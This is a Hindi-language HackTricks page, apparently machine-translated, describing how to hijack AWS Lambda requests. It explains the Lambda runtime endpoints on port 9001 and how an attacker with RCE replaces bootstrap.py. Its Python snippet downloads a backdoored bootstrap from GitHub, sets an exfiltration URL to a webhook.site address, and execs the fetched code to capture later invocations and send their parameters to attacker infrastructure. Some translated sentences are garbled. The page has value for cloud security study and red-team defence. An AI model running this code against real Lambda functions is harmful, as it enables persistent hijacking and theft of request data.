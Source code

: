 # AWS - Lambda अनुरोध चुराना

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ शून्य से हीरो तक AWS हैकिंग सीखें!</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी कंपनी का विज्ञापन HackTricks में देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>

## Lambda फ्लो

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** एक प्रक्रिया है जो कंटेनर के बाहर है जो **init** प्रक्रिया को **आमंत्रण** भेजती है।
2. इनिट प्रक्रिया पोर्ट **9001** पर सुन रही है और कुछ दिलचस्प एंडपॉइंट्स उजागर कर रही है:
* **`/2018-06-01/runtime/invocation/next`** – अगले आमंत्रण घटना प्राप्त करें
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – आमंत्रण के लिए हैंडलर प्रतिक्रिया वापस करें
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – एक क्रियान्वयन त्रुटि वापस करें
3. **bootstrap.py** एक लूप है जो इनिट प्रक्रिया से आमंत्रण प्राप्त करता है और उन्हें हैंडल करने के लिए उपयोगकर्ताओं कोड को बुलाता है (**`/next`**).
4. अंततः, **bootstrap.py** इनिट को **प्रतिक्रिया** भेजता है।

ध्यान दें कि bootstrap उपयोगकर्ता कोड को एक मॉड्यूल के रूप में लोड करता है, इसलिए उपयोगकर्ता कोड द्वारा किया गया कोई भी कोड क्रियान्वयन वास्तव में इस प्रक्रिया में हो रहा है।

## Lambda अनुरोध चुराना

इस हमले का उद्देश्य यह है कि उपयोगकर्ता कोड को एक दुरुपयोगी **`bootstrap.py`** प्रक्रिया को चालू करने के लिए उपयोगकर्ता कोड को एक दुरुपयोगी **`bootstrap.py`** प्रक्रिया के अंदर चलाएं जो विकल्पनीय अनुरोध को हैंडल करती है। इस तरह, **दुरुपयोगी bootstrap** प्रक्रिया शुरू हो जाएगी **init प्रक्रिया के साथ बातचीत करना** अनुरोधों को हैंडल करने के लिए जबकि **विश्वसनीय** bootstrap **फंस** गई है दुरुपयोगी वाले को चलाती है, इसलिए यह इनिट प्रक्रिया से अनुरोध नहीं करेगी।

यह एक सरल कार्य है जैसे ही उपयोगकर्ता का कोड विश्वसनीय **`bootstrap.py`** प्रक्रिया द्वारा निष्पादित हो रहा है। इसलिए हमलावर:

* **वर्तमान आमंत्रण के नकली परिणाम को इनिट प्रक्रिया को भेजें**, ताकि इनिट सोचे कि bootstrap प्रक्रिया अधिक आमंत्रण के लिए प्रतीक्षा कर रही है।
* एक अनुरोध भेजना होगा **`/${invoke-id}/response`**।
* इन्वोक-आईडी को विश्वसनीय **`bootstrap.py`** प्रक्रिया के स्टैक से प्राप्त किया जा सकता है [**inspect**](https://docs.python.org/3/library/inspect.html) python मॉड्यूल का उपयोग करके (जैसा [यहाँ प्रस्तावित किया गया है](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) या फिर इसे फिर से अनुरोध करके प्राप्त किया जा सकता है **`/2018-06-01/runtime/invocation/next`** (जैसा [यहाँ प्रस्तावित किया गया है](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py))।
* एक दुरुपयोगी **`boostrap.py`** को निष्पादित करें जो अगले आमंत्रणों को हैंडल करेगी।
* छलापन के उद्देश्यों के लिए लैंबडा आमंत्रण पैरामीटर्स को हमलावर कंट्रोल C2 को भेजना और फिर सामान्य रूप से अनुरोधों को हैंडल करना संभव है।
* इस हमले के लिए, यह पर्याप्त है कि सिस्टम से या [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) से **`bootstrap.py`** का मूल कोड प्राप्त किया जाए, दुरुपयोगी कोड जोड़ा जाए और वर्तमान लैम्बडा आमंत्रण से इसे चलाया जाए।

### हमले के कदम

1. एक **RCE** भेद्यता खोजें।
2. एक **दुरुपयोगी** **bootstrap** उत्पन्न करें (उदा। [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **दुरुपयोगी** bootstrap को **निष्पादित** करें।

आप आसानी से इन क्रियाओं को निष्पादित कर सकते हैं:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
## संदर्भ

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
